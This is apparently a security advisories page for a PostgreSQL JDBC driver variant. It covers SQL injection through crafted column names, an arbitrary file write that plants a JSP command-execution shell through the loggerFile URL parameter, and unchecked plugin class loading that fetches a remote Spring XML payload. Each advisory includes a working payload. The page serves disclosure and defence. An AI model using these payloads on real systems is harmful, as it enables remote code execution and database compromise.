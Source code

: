 ```yaml
---
title: "Security Advisories"
date: 2022-06-19T22:46:55+05:30
draft: false
---
```


### SQL Injection in ResultSet.refreshRow() with malicious column names

#### Impact

*What kind of vulnerability is it? Who is impacted?*

The PGJDBC implementation of the `java.sql.ResultRow.refreshRow()` method is not performing escaping of column names so a malicious column name that contains a statement terminator, e.g. ; , could lead to SQL injection. This could lead to executing additional SQL commands as the application's JDBC user.

User applications that do not invoke the `ResultSet.refreshRow()` method are not impacted.

User application that do invoke that method are impacted if the underlying database that they are querying via their JDBC application may be under the control of an attacker. The attack requires the attacker to trick the user into executing SQL against a table name who's column names would contain the malicious SQL and subsequently invoke the `refreshRow()` method on the ResultSet.

For example:

```sql
CREATE TABLE refresh_row_example (
  id     int PRIMARY KEY,
  "1 FROM refresh_row_example; SELECT pg_sleep(10); SELECT * " int
);
```

This example has a table with two columns. The name of the second column is crafted to contain a statement terminator followed by additional SQL. Invoking the `ResultSet.refreshRow()` on a ResultSet that queried this table, e.g. `SELECT * FROM refresh_row` , would cause the additional SQL commands such as the `SELECT pg_sleep(10)` invocation to be executed.

As the multi statement command would contain multiple results, it would not be possible for the attacker to get data directly out of this approach as the `ResultSet.refreshRow()` method would throw an exception. However, the attacker could execute any arbitrary SQL including inserting the data into another table that could then be read or any other DML / DDL statement.

Note that the application's JDBC user and the schema owner need not be the same. A JDBC application that executes as a privileged user querying database schemas owned by potentially malicious less-privileged users would be vulnerable. In that situation it may be possible for the malicious user to craft a schema that causes the application to execute commands as the privileged user.

#### Patches

*Has the problem been patched? What versions should users upgrade to?*

Yes, versions 42.2.26 and 42.4.1 have been released with a fix.

The 42.2.26 release was provided to support older clients that are still running JDK 6 or JDK 7 that cannot upgrade to the 42.4.x release line (which requires JDK 8+).

We are not releasing a version for the 43.3.x release line and users are advised to upgrade to the 42.4.1 release to get the fix.

#### Workarounds

*Is there a way for users to fix or remediate the vulnerability without upgrading?*

Check that you are not using the `ResultSet.refreshRow()` method.

If you are, ensure that the code that executes that method does not connect to a database that is controlled by an unauthenticated or malicious user. If your application only connects to its own database with a fixed schema with no DDL permissions, then you will not be affected by this vulnerability as it requires a maliciously crafted schema.

### Arbitrary File Write Vulnerability

#### Overview

The connection properties for configuring a pgjdbc connection are not meant to be exposed to an unauthenticated attacker. While allowing an attacker to specify arbitrary connection properties could lead to a compromise of a system, that's a defect of an application that allows unauthenticated attackers that level of control.

It's not the job of the pgjdbc driver to decide whether a given log file location is acceptable. End user applications that use the pgjdbc driver must ensure that filenames are valid and restrict unauthenticated attackers from being able to supply arbitrary values. That's not specific to the pgjdbc driver either, it would be true for any library that can write to the application's local file system.

While we do not consider this a security issue with the driver, we have decided to remove the loggerFile and loggerLevel connection properties in the next release of the driver. Removal of those properties does not make exposing the JDBC URL or connection properties to an attacker safe and we continue to suggest that applications do not allow untrusted users to specify arbitrary connection properties. We are removing them to prevent misuse and their functionality can be delegated to java.util.logging.

If you identify an application that allows remote users to specify a complete JDBC URL or properties without validating it's contents, we encourage you to notify the application owner as that may be a security defect in that specific application.

#### Impact

It is possible to specify an arbitrary filename in the loggerFileName connection parameter
 `"jdbc:polardb://localhost:5432/test?user=test&password=test&loggerLevel=DEBUG&loggerFile=./blah.jsp&<%Runtime.getRuntime().exec(request.getParameter("i"));%>"`

This creates a valid JSP file which could lead to a Remote Code Execution

#### Patches

Problem has not been patched

#### Workarounds

sanitize the inputs to the driver

Reported by Allan Lou v3ged0ge@gmail.com

### Unchecked Class Instantiation when providing Plugin Classes

#### Impact

pgjdbc instantiates plugin instances based on class names provided via `authenticationPluginClassName`, `sslhostnameverifier`, `socketFactory`, `sslfactory`, `sslpasswordcallback` connection properties.

However, the driver did not verify if the class implements the expected interface before instantiating the class.

Here's an example attack using an out-of-the-box class from Spring Framework:

```java
DriverManager.getConnection("jdbc:polardb://node1/test?socketFactory=org.springframework.context.support. ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```

The first impacted version is REL9.4.1208 (it introduced `socketFactory` connection property)
